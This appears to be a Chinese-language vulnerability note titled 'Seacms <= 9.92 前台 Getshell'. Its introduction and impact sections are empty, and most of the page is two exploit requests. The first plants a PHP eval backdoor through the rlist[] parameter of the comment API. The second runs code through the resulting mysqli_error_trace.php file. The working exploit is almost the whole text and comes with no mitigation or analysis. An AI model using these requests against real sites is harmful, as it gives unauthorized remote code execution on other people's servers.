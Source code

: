 # Seacms <= 9.92 前台 Getshell

> 原文：[http://book.iwonder.run/0day/Seacms/Seacms 9.92 前台 Getshell.html](http://book.iwonder.run/0day/Seacms/Seacms 9.92 前台 Getshell.html)

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

```
http://0-sec.org/comment/api/index.php?gid=1&page=2&rlist[]=*hex/@eval($_GET[_]);?%3E 
```

然后访问：

```
http://0-sec.org/data/mysqli_error_trace.php?_=phpinfo(); 
```

